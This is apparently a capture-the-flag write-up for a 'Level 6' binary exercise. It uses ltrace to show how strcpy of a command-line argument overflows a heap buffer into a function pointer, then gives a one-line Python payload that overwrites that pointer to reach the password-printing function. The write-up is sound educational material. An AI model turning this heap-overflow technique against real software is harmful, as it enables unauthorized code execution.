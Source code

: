 # Level 6

## Initial Context

- One file: `level6`

## Solving the Challenge

The executable expects one argument.

If run using `ltrace`, we can see that there is 2 constant allocations.

```bash
$ ltrace ./level6 hello
...
malloc(64)                        = 0x0804a008
malloc(4)                         = 0x0804a050
strcpy(0x0804a008, "hello")
puts("Nope")
```

The program is copying `argv[1]` to the first allocated memory.

By looking at the code, we can also see that the second allocated memory contains a function pointer to the method saying "Nope".

We can try to override the second memory by `n`'s address:

```python
# padding of 64
"A" * 64

# padding of 8 to go from the first memory's end to the new memory start
+ "A" * 8

# n's address in LE
+ "\x54\x84\x04\x08"'
```

The program will `cat` the password for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
$ ./level6 $(python -c 'print "A" * (64 + 8) + "\x54\x84\x04\x08"')
<flag>
```
